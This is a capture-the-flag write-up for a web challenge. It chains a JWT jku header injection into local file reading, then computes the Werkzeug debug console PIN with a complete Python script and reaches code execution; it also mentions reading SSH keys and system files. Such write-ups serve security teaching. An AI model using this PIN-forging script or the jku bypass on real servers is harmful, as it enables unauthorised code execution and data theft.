







# **_Admin ?_**
### Hard: 700 (560) pts

> Our server was compromised, we got our hands on a website that the attackers hosted there. A super important secret is there, can you bring us its contents?

> Challmaker: sc0r7

### Recognition phase

In this app we can see that we have the opportunity to read a file on the system.

But trying to do so we get `Permission error: You are not an admin, you do not have access to read server files`



Now moving on and trying to examine the JWT token we see that there is a `profile` key in the payload part set to `visitor` which is certainly the way that the app make sure that we're an admin or visitor



After trying some common quick stuffs to modify it to `admin` I decided to read about the `jku` header.

So briefly summarized the `jku` hold a path to a file where a KEY is contained. And this key is used to verify that the token is authentic and it hasn't been tampered. But the thing is this path could also be a link and if the server doesn't check the origin of the key we might then:

**Create our own key**



**Modify the jku origin to our key url and use our key to sign the modified token**



Then the server is going to check the token with our key and we will be able to read files



For a more detailled overview here is a link that explains it: [Jku Header Injection](https://cyberw1ng.medium.com/22-5-lab-jwt-authentication-bypass-via-jku-header-injection-1ec5032245b3)


In the previous picture we see that there is a user named `scort` (S/O challmaker) with a home directory `/home/scort`

I tried to read his ssh private key as well as some other interesting file but didn't find anything profitable.

I then remembered that when doing the directory enumeration I saw this:



This means that the `debug mode` was enabled and that is not supposed to be the case in production. Trying to access it we're required the `Werkzeug Console Pin`. But here is the thing. This PIN isn't randomly generated. In fact it is mostly based on environment information such a the `username` of the user running the app, the `flask script`, the `mac address`, the `modname` etc...

So knowing that we already have an LFI we're know able to retrieve those information in order to generate the PIN.

Here is a github script for that purpose filled with the correct parameters

```python
#!/bin/python3
import hashlib
from itertools import chain

probably_public_bits = [
        'scort',
        'flask.app', # modname
        'Flask', # getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/home/scort/.local/lib/python3.9/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
        '2485378678786', # read /sys/class/net/eth0/address for example 0d:4a:cd:.. and convert it to 0x0d4acd...
        '7988d89c-f2a7-41f6-a5b7-50f32316852a' # Machine Id: /etc/machine-id(empty in our case) + /proc/sys/kernel/random/boot_id + /proc/self/cgroup (also empty)
]

h = hashlib.sha1() # Newer versions of Werkzeug use SHA1 instead of MD5
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num

print("Pin: " + rv)
```

Running it we get:

```bash
➜  werkzeug-debug-console-bypass git:(main) ✗ python3 werkzeug-pin-bypass.py
Pin: 114-668-164
```

Now that we have the pin we are able to open the console and then execute our python code to retrieve the flag



##### _By w1z0z - (l3gm1nn)_
